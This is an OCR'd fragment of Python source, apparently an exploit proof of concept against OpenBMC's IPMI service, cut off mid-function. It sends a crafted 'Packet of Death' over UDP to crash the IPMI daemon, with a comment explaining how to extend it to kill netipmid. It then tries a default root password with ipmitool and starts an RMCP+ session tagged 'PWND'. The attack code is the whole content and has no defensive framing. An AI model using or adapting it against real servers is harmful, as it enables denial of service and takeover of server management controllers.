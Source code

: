```
            else:
                if res[0] == socket.AF_INET:
                    self._sockaddr = ('::ffff:'+res[4][0], res[4][1], 0, 0)
                else:
                    self._sockaddr = res[4]
            break


    def write(self, data):
        if self._sock == None:
            return 0
        return self._sock.sendto(data, self._sockaddr)


    def read(self):
        result = self._sock.recvfrom(4096)[0]
        if result[:4] != b'\x06\x00\xff\x07':
            raise Exception("[!] Not an IPMI")
        return result


def main():
    opts, args = getopt.getopt(sys.argv[1:], 'U:H:p:')

    opt_host=''
    opt_user=''
    opt_port=623
    for o, a in opts:
        if o == '-U':
            opt_user = a
        elif o == '-p':
            opt_port = int(a)
        elif o == '-H':
            opt_host = a

    if not opt_host:
        raise Exception('[!] No host being specified')

    cli = IpmiUdpClient(host=opt_host, port=opt_port)
    cli.connect()

    if not opt_user:
        print('[#] Send Packet of Death (IPMI v1.5)')
        # By extending the following write with two zero bytes and changing ipmi version byte to match v2.0, it will also kill the netipmid
        cli.write(b'\x06\x00\xff\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x00\x20')
        os.system("set -x; ipmitool -C 17 -H '%s' -p '%s' -U 'root' -P '0penBmc' -I lanplus mc info" % (opt_host, opt_port))
        return

    print('[#] Get Channel Auth Capabilities')
    cli.write(b'\x06\x00\xff\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x20\x18\xc8\x81\x008\x8e\x04\xb5')
    resp = cli.read()
    if not (resp[14] & 0b10000000 and resp[16] & 0b10):
        raise Exception("[!] Expected IPMI 2.0 support")
    time.sleep(3)

    print('[#] Open RMCP+ Request, will create session')
    cli.write(b'\x06\x00\xff\x07\x06\x10\x00\x00\x00\x00\x00\x00\x00\x00\x20\x00\x02\x00\x00\x00PWND\x00\x00\x00\x08\x03\x00\x00\x00\x01\x00\x00\x08\x04\x00\x00\x00\x02\x00\x00\x08\x01\x00\x00\x00')
    resp = cli.read()
    if resp[16] != 2:
```